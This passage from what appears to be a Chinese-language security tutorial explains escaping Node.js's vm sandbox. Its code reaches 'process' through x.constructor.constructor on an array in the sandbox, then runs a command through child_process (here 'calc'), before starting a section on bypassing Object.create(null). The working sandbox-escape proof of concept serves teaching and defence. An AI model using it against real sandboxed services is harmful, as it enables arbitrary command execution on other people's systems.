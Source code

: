 我们通过`this`是指向的是 Context，其实也说明了只要是外部的引用的特性都是可以进行获取来进行逃逸的

示例：

```plain
const vm = require("vm");

const sandbox = {
    x: []
};

vm.createContext(sandbox);

const res = vm.runInNewContext('x.constructor.constructor("return process")()',sandbox);

console.log(res.mainModule.require('child_process').exec('calc'));
```

[![](assets/1706496096-ce6a6cdbf4b5d938ba3eab0ac44e9bb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140521-e3a1f504-bc10-1.png)

我们这里利用的是沙箱内定义的数组 x 进行 RCE 的，而且经过测试由于数字，字符串，布尔这些都是 primitive 类型，在传参的时候将数值传递过去，而不是引用属性，无法进一步调用`constructor`

### 沙箱逃逸绕过 Object.create(null)

我们既然知道`this`是引用的 Context 从而实现 RCE 的，如果我们将原型对象设置为 null，这样的话`this.constructor`获取不到对象，从而无法进行利用
